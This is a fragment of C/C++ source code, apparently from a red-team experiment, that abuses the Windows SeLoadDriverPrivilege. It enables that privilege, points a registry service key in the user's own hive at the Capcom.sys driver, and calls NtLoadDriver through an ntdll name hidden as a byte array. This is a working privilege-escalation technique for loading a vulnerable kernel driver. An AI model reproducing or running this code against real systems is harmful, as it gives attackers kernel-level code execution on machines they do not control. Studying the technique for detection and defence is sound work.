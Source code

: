 ```c
		NULL,            // lookup privilege on local system
		L"SeLoadDriverPrivilege",   // privilege to lookup 
		&luid))        // receives LUID of privilege
	{
		printf("LookupPrivilegeValue error: %un", GetLastError());
		return FALSE;
	}
	tp.PrivilegeCount = 1;
	tp.Privileges[0].Luid = luid;
	
	if (bEnablePrivilege) {
		tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	}
	
	// Enable the privilege or disable all privileges.
	if (!AdjustTokenPrivileges(
		hToken,
		FALSE,
		&tp,
		sizeof(TOKEN_PRIVILEGES),
		(PTOKEN_PRIVILEGES)NULL,
		(PDWORD)NULL))
	{
		printf("AdjustTokenPrivileges error: %x", GetLastError());
		return FALSE;
	}

	//system("cmd");
	// below code for loading drivers is taken from https://github.com/killswitch-GUI/HotLoad-Driver/blob/master/NtLoadDriver/RDI/dll/NtLoadDriver.h
	std::cout << "[+] Set Registry Keys" << std::endl;
	NTSTATUS st1;
	UNICODE_STRING pPath;
	UNICODE_STRING pPathReg;
	PCWSTR pPathSource = L"C:\\experiments\\privileges\\Capcom.sys";
  PCWSTR pPathSourceReg = L"\\Registry\\User\\<User-SID>\\System\\CurrentControlSet\\MyService";
	const char NTDLL[] = { 0x6e, 0x74, 0x64, 0x6c, 0x6c, 0x2e, 0x64, 0x6c, 0x6c, 0x00 };
	HMODULE hObsolete = GetModuleHandleA(NTDLL);
	*(FARPROC *)&RtlInitUnicodeString = GetProcAddress(hObsolete, "RtlInitUnicodeString");
	*(FARPROC *)&NtLoadDriver = GetProcAddress(hObsolete, "NtLoadDriver");
	*(FARPROC *)&NtUnloadDriver = GetProcAddress(hObsolete, "NtUnloadDriver");

	RtlInitUnicodeString(&pPath, pPathSource);
	RtlInitUnicodeString(&pPathReg, pPathSourceReg);
	st1 = NtLoadDriver(&pPathReg);
	std::cout << "[+] value of st1: " << st1 << "\n";
	if (st1 == ERROR_SUCCESS) {
		std::cout << "[+] Driver Loaded as Kernel..\n";
		std::cout << "[+] Press [ENTER] to unload driver\n";
	}

	getchar();
	st1 = NtUnloadDriver(&pPathReg);
	if (st1 == ERROR_SUCCESS) {
		std::cout << "[+] Driver unloaded from Kernel..\n";
		std::cout << "[+] Press [ENTER] to exit\n";
		getchar();
	}

    return 0;
}
```
